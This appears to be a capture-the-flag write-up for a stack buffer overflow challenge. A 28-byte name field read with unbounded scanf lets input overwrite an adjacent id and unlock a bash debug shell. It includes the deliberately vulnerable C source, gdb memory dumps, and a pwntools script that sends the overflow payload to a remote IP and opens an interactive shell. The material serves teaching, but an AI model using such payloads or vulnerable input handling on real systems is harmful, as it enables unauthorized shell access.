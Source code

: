 # pointeroverflowctf - Exploit 200 "Overrun and Outdone"
## Table of Contents
- [Introduction](#introduction)
- [Code Analysis](#code-analysis)
- [Debugging](#Debugging)
- [Exploit Development](#exploit-development)
- [Usage](#usage)
- [Conclusion](#conclusion)

## Introduction
<p align="center">
 <img src="images/exploit_200.png" alt="challenge">
 </p>

The User Record application has a buffer overflow vulnerability due to improper handling of user input. The `name` field in the `user_record` struct has a fixed size, which allows for an overflow when a longer string is provided. This exploit demonstrates how to manipulate the memory layout to change the `id` variable.

## Code Analysis

To gain privileged shell access in the User Record application, we target the ROOT_ID defined as 80085, The structure user_record has a total size of 32 bytes so with no padding, allowing us to exploit a buffer overflow in the name field to overwrite the adjacent id field directly. By crafting an input that exceeds the buffer size, we can set the id to 80085, granting access to the debug shell.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>

#define GUEST_ID 101
#define ROOT_ID 80085

struct user_record {
	char name[28];
	int id;
};

void sig_handler(int signum) {

	printf("Timeout\n");
	exit(0);

}

void init() {

	alarm(60);
	signal(SIGALRM, sig_handler);

	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stderr, NULL, _IONBF, 0);

	chdir(getenv("HOME"));

}

int get_int() {

	int r;

	scanf(" %d", &r);
	while(getchar() != '\n');

	return r;

}

int main() {

	int choice;
	struct user_record u = {
		"User",
		GUEST_ID
	};

	init();

	printf("Ohayoooo, %s-senpai!! ☆ ～('▽^人)~ Welcome to your wildest dreams!\n", u.name);

	while(1) {

		printf("\nWhat can I do for you today, %s-senpai? UwU ♪(´▽`)\n", u.name);
		printf(" (1) ☆~ Rename yourself, nya! ~☆\n");
		printf(" (2) ★~ Become a super-duper admin! ~★\n");
		printf(" (3) ☾~ Access Debug Mode, teehee ~☽\n");
		printf(" (4) ✧~ Leave me?! Nooo... ~✧ (Quit the program)\n");
		printf("Your Choice, senpai: ");
		choice = get_int();

		if (choice == 1) {

			printf("Oooh! A new name, how exciting! (≧◡≦) Enter your new username, %s-senpai: ", u.name);
			scanf("%s", u.name);

		} else if (choice == 2) {

			printf("Ehehe, gomen'nasai %s, but the admin account is like... totally locked, desu~! (≧▽≦)/\n", u.name);

		} else if (choice == 3) {

			if (u.id == GUEST_ID) {
				printf("Oh no no no, %s-chan! Guests aren't allowed to use this feature, teehee! (≧ω≦)\n", u.name);
			} else if (u.id == ROOT_ID) {
				printf("Sugoi! Starting debug shell just for you, %s-sama~! (っ＾▿＾)\n", u.name);
				execl("/bin/bash", "/bin/bash", NULL);
			} else {
				printf("Hmmm... I don't know what kind of user you are, %s... so mysterious! (´･ω･`)\n", u.name);
			}

		} else if (choice == 4) {
			printf("N-Nani?! You're leaving me, %s-senpai?! ｡ﾟ･ (>﹏<) ･ﾟ｡ Sayonaraaa... come back soon, kay?! (~￣▽￣)~\n", u.name);
			exit(0);

		} else {
			printf("Eh? That's not an option, silly %s! (⁄ ⁄>⁄ ▽ ⁄<⁄)\n", u.name);
		}
	}
	return 0;
}
```
## Debugging 
### using gdb :

set name -> "aaaaaaaaaaaaaaaaaaaaaaaaaaaaa" -> 'a' 29 times

```shell
(gdb) x/32bx &u.name
0x7fffffffde20: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde28: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde30: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0x7fffffffde38: 0x61  0x61  0x61  0x61  0x61  0x00  0x00  0x00

(gdb) x/32bx &u.id
0x7fffffffde3c: 0x61  0x00  0x00  0x00  0x00  0xdf  0xff  0xff
0x7fffffffde44: 0xff  0x7f  0x00  0x00  0x00  0x00  0x00  0x00
0x7fffffffde4c: 0x01  0x00  0x00  0x00  0x01  0x00  0x00  0x00
0x7fffffffde54: 0x00  0x00  0x00  0x00  0xba  0x5d  0xde  0xf7

(gdb) print u.id
$4 = 97
```

The first byte of u.id (0x61) was overwritten by the overflow from u.name.
This means that u.id now holds the value 97, which is the ASCII code for the character 'a'

so for set u.id to 80085 ->  in hex 0x000138D5
In little-endian representation, the least significant byte comes first. Therefore, 80085 (0x000138D5) is stored in memory as 0xD5 0x38 0x01 0x00

## Exploit Development

```py
from pwn import *

# connection to the remote service
p = remote('35.184.182.18', 32001)

# Create 28 'A's followed by the bytes 0xD5 0x38 0x01 0x00
payload = b"A" * 28 + b"\xd5\x38\x01\x00"

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'1')

p.sendline(payload)

p.recvuntil(b'Your Choice, senpai: ')
p.sendline(b'3')

p.interactive()

```
## Usage
* python3 exploit200.py
<p align="center">
 <img src="images/exploit200_script.png" alt="expliot">
 </p>


## Conclusion

This challenge highlights the importance of input validation in C programming. Buffer overflows can lead to severe security vulnerabilities, making it crucial for developers to implement proper checks on input sizes and memory usage. Understanding memory layout and endianness is vital for recognizing and exploiting such vulnerabilities.